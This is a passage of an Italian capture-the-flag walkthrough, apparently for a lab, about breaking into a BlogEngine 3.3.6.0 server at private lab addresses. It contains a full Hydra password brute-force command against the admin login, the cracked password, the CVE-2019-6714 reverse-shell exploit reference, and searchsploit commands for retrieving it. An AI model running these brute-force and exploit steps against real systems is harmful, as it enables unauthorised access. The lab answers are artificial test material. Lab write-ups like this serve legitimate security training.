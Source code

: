 ```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.131.80 http-post-form '/Account/login.aspx:__VIEWSTATE=9RhjEa3BtTcf%2BkfbOW9bfpeS%2BZReu3SfG912AiyXqwcEfw0bCBxJSEHTV1MoarhXqFVtErutkeBbRiHb%2B0opcHlgZgoGJGLfOPSfzDjMgPc3Xjqw6sZaMFXjA2ZQBHBUEdIxbO367QmonLBFq8Uz9YlkLmFFuggm%2FLXOeY9IWzdJdtoe9Q1bJwttW%2FPAwQuG9leJOUotBUixIJzdfJvN%2F1YCT0dbGDvzPKZR%2Fzkwbsc4s0SbvNBr9NJgHLighlsP1XFsy1VarihP4Xd9kSGOr2ef3TDoBXFk6TjT7i7xBU41%2BF0s8oMsOTXF2LXOxHr4kKO86Pobq9v8koxe88Ej%2BDsItdfmYouR1bOVupRYOvtrf6WL&__EVENTVALIDATION=fXym4Bx%2FFZEtjjBd5anYlUJ32X3V%2Fp%2FF9puhcMDEW3rO9jGOflpX3JUWcMjhgNvAjXAhr0sLl%2B54oRgib6M9I7J6IuiQS45suYpkbVQlbDRBi88ZHpp8dOuu1NrLInmlyUEaYt40ymVHHRR5qOJ6twuG3LAcWtL7LxL5cId3FeiD8wOA&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed'
```

```
[80][http-post-form] host: 10.10.131.80   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-06 04:36:14
```

Indovina un nome utente, scegli un elenco di parole per la password e ottieni le credenziali di un account utente!
```
1qaz2wsx
```


Ora che hai effettuato l'accesso al sito web, riesci a identificare la versione di BlogEngine?
```
    </form>

    <!--- BlogEngine 3.3.6.0 -->
</body>
```
oppure in
```
http://10.10.192.195/admin/about.cshtml
```

```
3.3.6.0
```
Utilizzare l' [archivio del database degli exploit](http://www.exploit-db.com/)  per trovare un exploit che consenta di ottenere una reverse shell su questo sistema.

Che cosa è il CVE?
https://www.exploit-db.com/exploits/46353
```
CVE-2019-6714
```
Utilizzando l'exploit pubblico, ottieni l'accesso iniziale al server.

```
msfconsole
```

```
searchsploit blogengine
```

```
searchsploit -m 46353
```
